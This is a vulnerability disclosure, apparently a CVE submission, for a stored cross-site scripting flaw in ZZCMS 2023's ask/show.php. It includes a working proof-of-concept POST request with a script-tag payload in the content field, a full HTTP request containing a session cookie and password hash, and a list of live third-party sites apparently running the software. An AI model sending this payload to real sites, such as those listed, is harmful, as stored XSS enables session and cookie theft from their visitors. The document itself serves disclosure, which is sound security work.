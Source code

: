 # ZZCMS 2023 储存型XSS ask/show.php

## CVE-ID

**CVE-2024-43006**

## Vulnerability type 
Cross Site Scripting (XSS)

## Vendor of the product(s)
http://www.zzcms.net/about/download.html



## Affected product(s)/code base

## Product	* Version	
ZZCMS
<=2023(latest)

## Optional

Has vendor confirmed or acknowledged the vulnerability? Yes 

## Attack type info 
Remote

Information Disclosure

## Affected component(s)

ask/show.php line 21 ,after the content parameter is obtained from the database, it passes through the stripfxg() function, which deletes the original escape of html characters, resulting in XSS vulnerability.
## Attack vector(s)

POST /user/ask_edit.php?action=add HTTP/1.1
Payload: classid=1&title=1112221&content=</div><ScRipt>alert(1)</ScRipt><div>&img=&jifen=0&Submit=%E5%8F%91%E5%B8%83

Note that the XSS can be seen in ask/show_{newsid}.html,if you brose into /ask,you can see all the asks include the test XSS one.Goto the ask/ and clink into the ask we just published,the XSS is executed.
## Suggested description of the vulnerability for use in the CVE info

A stored cross-site scripting (XSS) vulnerability exists in ZZCMS2023 in the ask/show.php file at line 21. An attacker can exploit this vulnerability by sending a specially crafted POST request to /user/ask_edit.php?action=add, which includes malicious JavaScript code in the 'content' parameter. When a user visits the ask/show_{newsid}.html page, the injected script is executed in the context of the user's browser, leading to potential theft of cookies, session tokens, or other sensitive information.

## Discoverer(s)/Credits info

GKDf1sh



## Reference(s) info

https://www.88zsw.com

http://www.818yyzs.com

https://www.qibai.cc

http://www.weixumu.cn

http://www.eshouyao.com

http://www.66988.tv/

http://www.dl580.tv/

## Additional information

POST /user/ask_edit.php?action=add HTTP/2
Host: www.XXX.com
Cookie: PHPSESSID=lcpl5f7h3c8eiagjhtbael9ugi; UserName=admin1; PassWord=21232f297a57a5a743894a0e4a801fc3; userid=1493
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://www.XXX.com
Referer: https://www.XXX.com/user/ask.php?action=add
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

classid=1&title=1133321&content=</div><ScRipt>alert(1)</ScRipt><div>&img=&jifen=0&Submit=%E5%8F%91%E5%B8%83


Goto the ask/ and click into the ask we just published,the XSS is executed.
